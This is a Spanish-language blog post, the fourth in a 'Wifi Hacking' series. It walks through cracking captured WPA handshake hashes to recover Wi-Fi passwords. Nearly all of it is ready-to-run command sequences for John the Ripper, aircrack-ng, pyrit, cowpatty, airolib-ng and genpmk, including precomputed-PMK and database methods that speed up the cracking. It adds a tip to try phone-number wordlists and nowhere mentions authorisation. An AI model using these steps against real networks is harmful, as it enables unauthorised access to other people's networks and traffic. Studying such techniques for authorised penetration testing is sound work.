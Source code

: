 ```yaml
---
layout: single
title: Wifi Hacking 4, Crackeo de hashes
excerpt: "En este artículo veremos como crackear los hashes que hemos obtenido para así lograr saber la contraseña."
date: 2022-07-08
classes: wide
header:
  teaser: 
  teaser_home_page: true
  icon: /assets/images/Wifi-Hacking/wifi.webp
categories:
  - Wifi-Hacking
tags:  
  - Wifi-Hacking
---
```


![](/assets/images/Wifi-Hacking/cracking.jpg)

Este es el último paso que tenemos que realizar si `lo que queremos lograr es la contraseña` de la red. Para esto hay varias técnicas y dentro de las mismas hay otras sub técnicas con las que podremos acelerar el proceso. Por eso aquí veremos todas, aunque `con cualquiera se puede lograr el mismo resultado`, vosotros elegid la que prefiráis.

Todas las técnicas que veremos funcionan a base de `fuerza bruta`, es decir que utilizando un `diccionario` que viene a ser una lista de palabras/contraseñas filtradas/... va probando una a una hasta que encuentre la correcta.

`IMPORTANTE: no es raro que la contraseña sea un número de teléfono, por lo que no está mal probar con eso si no conseguimos resultado con otros diccionarios, si necesitas un diccionario con números de teléfono o alguna otra cosa puedes mirar este simple script que programé hace tiempo: https://github.com/AirilMusic/Pentesting-Hacking/blob/main/Passwords-and-Brute-Forcing/DictionaryCreator.py`

## John the Reaper

Vamos a empezar explicando como hacerlo con esta conocida herramienta. Pero como John no está especializado en wifi hacking primero tenemos que preparar el hash, es decir, extraerlo del archivo .cap:

```
# generar miCaptura.hccap, parte del paquete con las creds
> aircrack-ng -J miCaptura Captura-01.cap (esto hace el hccap pero en binario)

# genera hash de las creds
> hccap2john miCaptura.hccap > miHash (esto lo pasa a json, solo falte desencriptarlo)
```

Una vez hecho esto ya podremos crackear la contraseña:

```
> john --wordlist={diccionario.txt} miHash
```

## Airckrack

Ahora veremos como hacerlo con esta otra también conocida herramienta y la cual si es especializada en wifi hacking, por lo tanto, la captura no necesitará preparación previa:

```
> aircrack-ng -w {diccionario.txt} {captura.cap}
```

## Pyrit

También veremos como hacerlo con esta herramienta que ya es bastante antigua, por lo tanto, quizás hay que arreglarle un par de cosas al código o correrla con python2, sin optimizar es la más lenta, pero luego veremos que bien optimizada es la más rápida de todas y con diferencia.

```
# primero veremos si la captura tiene un handshake y tambien veremos el nombre del AP
> pyrit -r Captrua-01.cap analyze 

# crackear la contraseña:
> pyrit -r Captura-01.cap -e {nombre del ap} -i diccionario.txt attack_passthrough 
```

## Craking con Coupatty

```
> cowpatty -r {captura.cap} -f {diccionario.txt} -s {nombre del ap}
```

## TÉCNICAS DE ACELERACIÓN

Las técnicas que hemos visto son bastante lentas, por lo que si no queremos estar varias horas con eso también podemos utilizar las siguientes técnicas que son `considerablemente más rápidas`.

Para lograr esto necesitaremos tener un archivo de `contraseñas precomputarizadas`. De esta forma nos `ahorraremos pasos` del procedimiento, `aumentando así la velocidad` de cómputo. Esto tambien se hace con un ataque mediante base de datos.

## Crear diccionarios preestablecidos con Airolib

Para crear el diccionario precomputarizado:

```
> airolib-ng {passwords-airolib (osea, el nombre)} --import passwd {diccionario.txt} 

> file {passwords-airolib}

> airolib-ng {passwords-airolib} --import essid {essid del ap}

> airolib-ng {passwords-airolib} --clean all

> airolib-ng {passwords-airolib} --batch

> kill %%
```

Y una vez tengamos esto listo, crackeandolo con `Aircrack` veremos que es mucho mas rapido que antes.

```
> aircrack-ng -r {passwords-airolib} {Captura-01.cap}
```

## GenPMK

```
> genpmk -f {diccionario.txt} -s {essid de la red} -d {dic.genpmk (osea el nombre )}

> file {dic.genpmk}

> cowpatty -d {dic.genpmk} -r {Captura-01.cap} -s {essid de la red}
```

## Diccionario precomputarizado con Pyrit

```
> pyrit -e {essid de la red} -i {dic.genpmk} -r {Captura-01.cap} attack_cowpatty
```

## Ataque mediante basa de datos con Pyrit

Esta es la forma `mas rapida` de todas las que hemos visto.

```
> pyrit -i {diccionario.txt} import_passwords

> pyrit -e {essid de la red} create_essid

> pyrit batch

> pyrit -r {Captura-01.cap} attack_db
```

